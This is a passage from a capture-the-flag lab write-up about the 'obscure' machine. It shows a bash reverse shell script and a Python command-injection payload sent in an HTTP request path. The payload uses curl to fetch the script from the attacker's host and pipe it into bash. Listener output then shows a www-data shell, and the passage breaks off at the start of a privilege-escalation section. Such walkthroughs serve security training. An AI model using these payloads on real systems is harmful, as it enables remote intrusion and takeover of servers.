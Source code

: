 
I’ve got code execution.

### Shell

The make things simple and limit spaces, I’ll create a file in my current
folder called `shell`:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.19/443 0>&1
    

Now I’ll use Python to server this, and have my injection just use `curl` to
get it and pipe it into `bash`. In Repeater:

    
    
    GET /';os.system('curl%2010.10.14.19/shell|bash');' HTTP/1.1
    Host: 10.10.10.168:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Pragma: no-cache
    Cache-Control: no-cache
    

When I send that, I see a hit on the Python webserver:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.168 - - [01/Dec/2019 09:13:15] "GET /shell HTTP/1.1" 200 -
    

And then a shell on the `nc` listener as www-data:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.168.
    Ncat: Connection from 10.10.10.168:37652.
    www-data@obscure:/$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Priv: www-data –> robert

### Enumeration

With a shell on the box, one of the places I always check out is `/home`. In
this case, there’s one user:
